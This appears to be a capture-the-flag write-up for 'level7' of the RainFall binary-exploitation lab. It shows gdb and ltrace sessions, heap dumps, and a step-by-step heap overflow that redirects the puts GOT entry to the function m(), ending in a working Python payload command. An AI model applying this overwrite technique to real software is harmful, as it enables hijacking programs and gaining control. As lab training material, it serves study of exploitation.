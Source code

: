 ```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"

```
(gdb) x 0x8049960
0x8049960 <c>:	 ""
  
(gdb) p 0x44
$6 = 68
  
(gdb) x 0x8048703
0x8048703:	 "~~"
```
  
```
(gdb) run "AAAABBBBCCCCDDDD" "ZZZZ1111"

(gdb) x/60wx 0x804a000
  
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x00000000	0x0804a038
0x804a030:	0x00000000	0x00000011	0x5a5a5a5a	0x31313131

(gdb) p/c 0x5a = 'Z'
 
 argv1 write at the heap pointed by p/x 0x804a010+8 = 0x804a018
 argv2                              0x804a038

confirmed by ltrace

level7@RainFall:~$ ltrace ./level7 AAAAAAAA BBBBBBBB

  strcpy(0x0804a018, "AAAAAAAA")
  strcpy(0x0804a038, "BBBBBBBB")

 ```
  
  ```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
  
  (gdb) disass 0x8048400
    Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
  ```
  
  address of puts `0x8049928` and address of m() function `0x080484f4`
  
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
 Heap befor srcpy 1 
```
"--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038 
```
  Heap after srcpy 1
  ```
  "--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
```
after strcpy2
```
(gdb) disass 0x8048400
puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4

(gdb) x 0x080484f4
0x80484f4 <m>:	0x83e58955
```



```
"-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
```
  strcpy(0x0804a018, "AAAA")
  strcpy(0x0804a038, "BBBB")
  
  cpy whatever is in av1 into 018
  cpy whatever is in av2 into 038
  
  what we need is smthing like:
  
    strcpy(addr_of_puts, addr_of_m)
  
  address of puts `0x8049928` and address of m() `0x080484f4`
  
  so we need to slide addr of puts to overide the aadr malloced for arv2
  
```
  "-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	[av1_dest]
0x804a010:	0x00000000	0x00000011	[   av1  ]	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	[av2_dest]
0x804a030:	0x00000000	0x00000011	[   av2  ]	0x00000000
```
we want to achieve smthg like
```
0x804a000:	0x00000000	0x00000011	0x00000001	[av1_dest]
0x804a010:	0x00000000	0x00000011	[   av1  ]	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	[  puts  ]
0x804a030:	0x00000000	0x00000011	[     m  ]	0x00000000
```
to reach `puts` frm `av1` we need  `4*5 = 20`

payload:

  `( python -c 'print A*20 + puts' ) ( python -c 'print m' )`
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
  ```
  "-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0xfbad240c	0x00000000
```
  
  
